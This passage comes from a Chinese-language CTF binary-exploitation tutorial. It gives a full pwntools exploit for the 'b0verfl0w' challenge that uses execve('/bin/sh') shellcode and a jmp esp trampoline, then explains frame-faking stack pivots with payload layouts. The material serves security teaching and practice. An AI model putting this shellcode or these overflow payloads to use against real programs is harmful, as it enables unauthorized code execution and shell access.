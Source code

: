 所以最后的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

#### 例2-转移堆

待。

### 题目

- EkoPartyCTF 2016 fuckzing-exploit-200

## frame faking

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

### 原理

概括地讲，我们在之前讲的栈溢出不外乎两种方式

- 控制程序 EIP
- 控制程序 EBP

其最终都是控制程序的执行流。在 frame faking 中，我们所利用的技巧便是同时控制 EBP 与 EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我们利用栈溢出将栈上构造为如上格式。这里我们主要讲下后面两个部分

- 函数的返回地址被我们覆盖为执行 leave ret 的地址，这就表明了函数在正常执行完自己的 leave ret 后，还会再次执行一次 leave ret。
- 其中 fake ebp 为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

```
fake ebp
|
v
ebp2|target function addr|leave ret addr|arg1|arg2
```

这里我们的 fake ebp 指向 ebp2，即它为 ebp2 所在的地址。通常来说，这里都是我们能够控制的可读的内容。
